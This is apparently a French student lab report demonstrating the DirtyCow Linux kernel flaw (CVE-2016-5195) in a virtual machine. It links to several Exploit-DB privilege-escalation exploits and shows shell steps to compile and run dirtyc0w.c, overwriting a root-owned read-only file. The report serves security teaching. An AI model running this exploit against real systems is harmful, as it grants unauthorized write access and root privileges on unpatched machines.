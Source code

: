 # Rapport Exercice 1 SLB

## Auteurs

- Harun Ouweis
- Rayburn Nathan
- Mouti Amir

## Objectif

L'objectif de cet exercice est de démontrer la vulnérabilité DirtyCow (CVE-2016-5195) sur une machine virtuelle Ubuntu. Nous allons explorer les exploits disponibles, tester leur exécution, et documenter les résultats à l'aide de captures d'écran avec explications détaillées. Ce travail vise à renforcer notre compréhension des failles de sécurité bas niveau et des mesures d'exploitation correspondantes.

## Livrables

1. **URL de la CVE liée à DirtyCow :**
   - [CVE-2016-5195 - DirtyCow (Mitre)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195)

   - [CVE-2016-5195 - DirtyCow (Exploit DB)](https://www.exploit-db.com/search?cve=2016-5195)
  
   - [github - DirtyCow Exploit](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

2. **URLs des exploits sur Exploit-DB :**
   - [Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40847)
   - [Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40838)
   - [Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)](https://www.exploit-db.com/exploits/40616)
   - [Dirty COW' /proc/self/mem Race Condition (Write Access Method)](https://www.exploit-db.com/exploits/40611)

3. **Procédure de production et d'exécution de l'exploit :**
   - **Étape 1 : Téléchargement de l'exploit**
     - Le code source de l'exploit a été téléchargé depuis Exploit-DB et enregistré sur la machine virtuelle.
   - **Étape 2: Suivre les commandes de la console ci-dessous**

### Étape 2
Open a new console and connect to root. 

**Create a file with only root access and set the correct rights.**
```bash
$ sudo -s                        # change to root user
$ echo this is not a test > foo  # create file + content            
$ chmod 0404 foo                 # change file rights
$ ls -lah foo                    # display root access rights 
-r-----r-- 1 root root 19 Sep 24 14:32 foo
$ cat foo                        # Check content
this is not a test               
```

Open a new console as a normal user.

**Run the DirtyC0w exploit**
```bash
$ gcc -pthread dirtyc0w.c -o dirtyc0w # compile the .c file into a binary executable
$ ./dirtyc0w foo m00000000000000000   # execute the exploit with dest file and what we want to put inside it.
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo                              # display the content
m00000000000000000
```

![alt text](image.png)

## Conclusion

